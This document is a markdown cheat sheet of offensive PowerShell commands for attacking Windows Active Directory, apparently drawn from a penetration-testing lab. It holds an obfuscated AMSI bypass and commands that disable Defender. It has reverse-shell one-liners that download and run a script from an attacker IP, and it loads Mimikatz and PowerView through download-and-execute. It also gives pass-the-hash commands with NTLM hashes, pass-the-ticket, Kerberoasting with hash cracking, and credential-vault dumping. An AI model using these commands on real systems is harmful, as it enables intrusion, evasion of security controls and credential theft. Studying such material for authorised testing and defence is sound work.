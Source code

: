 # Privilege Escalation

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

# Active Directory

## Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Rev shell
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```

Listener
```powershell
powercat -l -v -p 443 -t 100
```
Run remote command
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-command -ScriptBlock {Invoke-Mimikatz} -Session $sess
Enter-PSSession $sess
```

Check language mode and app locker config
```powershell
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy files
```powershell
Copy-Item .\Invoke-MimikatzEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
Copy-Item C:\Users\pastudent149\Documents\PowerView.ps1 -Destination .\PowerView.ps1 -FromSession $sessTo149
```

Download
```powershell
iex(iwr("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1"))
iex(iwr http://192.168.50.149/Invoke-Mimikatz.ps1)

```
Run command
```cmd
runas /user:[Domain]\[user] cmd
```

## Enumeration

Current privs
```powershell
whoami /priv
```
WMI from powershell
```powershell
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
Get Process name and its owner
```powershell
Get-Process -IncludeUserName
```

Get current domain
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain];$ADClass::GetCurrentDomain()
```


#### Bloodhound
```powershell
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```


#### PowerView

- [PowerView](https://github.com/lwierzbicki/PowerSploit/tree/master/Recon)
- [PowerSploit](https://powersploit.readthedocs.io)

Get all the users
```powershell
Get-NetUser
Get-NetUser | select -ExpandProperty samaccountname
$user = "usfun\db1user"
$pass = ConvertTo-SecureString -String "Vjltv1Enivad1232" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $user, $pass
$SecPassword = ConvertTo-SecureString 'Welcome2015' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('PWNY\jar-jar.binks', $SecPassword)
Get-NetUser -Credential $Cred | Format-Table name, samaccountname, userprincipalname, description
Get-NetUser -Username student1
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
```

Get OU
```powershell
Get-NetOU
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```

Get GPO
```powershell
Get-NetGPO
(Get-NetOU StudentMachines -FullData).gplink
Get-NetGPO -ADSpath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
Get-NetGPO -GPOName "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
Get-GPO -Guid [objectguid]
Find-GPOComputerAdmin - Computername dcorp-student1.dollarcorp.moneycorp.local
Find-GPOLocation -UserName student1 -Verbose
```

Get ACLs
```powershell
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs | Format-Table IdentityReference,ActiveDirectoryRights,AccessControlType
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "student"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
```

Get Domain Data
```powershell
Get-NetDomain
Get-NetDomain -Domain moneycorp.local
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy -domain moneycorp.local)."system access"
Get-NetDomainController -Domain moneycorp.local
```

Enumerate all domains in the current forest and their trust
```powershell
Get-NetForestDomain -Verbose
Get-NetDomainTrust
Get-NetForestDomain -Verbose | Get-NetDomainTrust
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust
```

Check local admin priv on any other machines
```powershell
Invoke-UserHunter -CheckAccess
```

Go hunting for active user sessions
```powershell
Invoke-UserHunter -showall -Credential $cred -ComputerName workstation04 | Format-Table -Property userdomain, username,computername, ipaddress
```


### Attack

#### Over pass the hash

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash> /run:powershell.exe
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```

#### Pass the ticket

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\test\krb_tkt.kirbi"'
```


#### Kerberoast

Get Kerberos ticket for user with SPN
```powershell
Get-NetUser -SPN | select serviceprincipalname
Request-SPNTicket -SPN "<serviceprincipalname>"
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast


john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```
Make user Kerberaostable
```powershell
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
Set-DomainObject -Identity sqlreportuser -SET @{serviceprincipalname='sqlreportuser/funcrop.local'}
Set-DomainObject -Identify sqlreportuser -Clear serviceprincipalname
```


#### Mimikatz

Add content to file
```powershell
Add-Content IM.ps1 "Invoke-Mimikatz -Command 'privilege::debug token::elevate lsadump::lsa /patch' "
```

```powershell
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```
Get AES keys
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
Inspect credentials vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
NTLM domain admin used to create a token and run powershell (over pass the hash)
```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```
